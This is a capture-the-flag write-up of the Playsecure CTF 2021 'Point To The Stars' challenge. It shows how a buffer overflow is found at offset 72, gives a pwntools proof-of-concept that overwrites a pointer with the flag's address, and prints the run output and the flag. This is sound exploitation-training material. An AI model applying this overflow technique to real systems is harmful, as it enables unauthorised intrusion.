 ```yaml
---
layout: post
title: Playsecure CTF 2021 - Point To The Stars
---
```

### Challenge Description

Can you point to the stars? Make the pointer point to the flag!

Connect to the challenge at exploitation.ps.ctf.ae:5454

<!-- more -->

### Connecting to challenge server and interacting.

![pts00](/assets/playsecure2021/pts00.png)

1. Flag Address
2. Current Address of star pointer
3. User Input
4. New star pointer

### Overwriting the star pointer

Sending a string of length 100 will overwrite the star pointer.

![pts01](/assets/playsecure2021/pts01.png)

Star pointer overwritten with 8 A's.

### Controlling the star pointer

We enter a unique pattern of 100 length as the wish. Find the offset at which the star pointer is getting overwritten.

![pts02](/assets/playsecure2021/pts02.png)

1. Generating unique pattern with MSF pattern_create.rb
2. Sending unique pattern
3. New star pointer address which is overwritten with the unique pattern
4. Finding the offset -> 72
5. Sending 72 A's + 8 B's as wish to confirm control over star pointer.
6. Star pointer overwritten with 8 B's

### Approach to Exploitation

WE know the following:
- The index at which star pointer is getting overwritten
- The address at which flag is stored

WE have to do the following:
- After connecting to challenge, read the flag address
- Send payload as [JUNK 72] + [FLAG ADDRESS PACKED LITTLE ENDIAN]
- Read responses from challenge server

### Exploitaion Proof of Concept

```python
# Author: Rizal Muhammed ~ rizaru ~ UB3RSiCK
# Date: 27 March 2021
# Desc: Playsecure ctf Point to the stars exploitation solution

from pwn import *
import struct

def p(a):
	return struct.pack("I",a)

conn = remote('exploitation.ps.ctf.ae',5454)
r = conn.recvuntil("Enter your wish: ")

temp = str(r).split('\\n')

print ('\n'.join(temp))


for item in temp:
        if "The flag is stored at" in item:
                flag = item[len('The flag is stored at '):]
        if "The star pointer is pointing at" in item: 
                ptr = item[len('The star pointer is pointing at '):]


payload = b"A"*72

f = str(flag)[2:]
print (f)

pp = p64(int(f, 16))

print (repr(pp))

payload += pp

print (payload, type(payload))

conn.sendline(payload)

print (conn.recvline())
print (conn.recvline())
print (conn.recvline())
```

Running the PoC.

![pts03](/assets/playsecure2021/pts03.png)

```bash
kali@kali:~/Desktop/CTF/playsecure.ctf.ae-mar262021/exploitation/point2thestars$ python3 pt2str.py 
[+] Opening connection to exploitation.ps.ctf.ae on port 5454: Done
b'Can you reach for the stars?
----------------------
The flag is stored at 0x7fffcf6de170
The star pointer is pointing at 0x7fffcf6de1c0
Enter your wish: '
7fffcf6de170
b'p\xe1m\xcf\xff\x7f\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\xe1m\xcf\xff\x7f\x00\x00' <class 'bytes'>
b'Granting your wish...\n'
b'The star pointer is now pointing at 0x7fffcf6de170\n'
b'Following the pointer you find: CTFAE{ReachForTheStarsAndBeyond}\n'
```

*FLAG: CTFAE{ReachForTheStarsAndBeyond}*
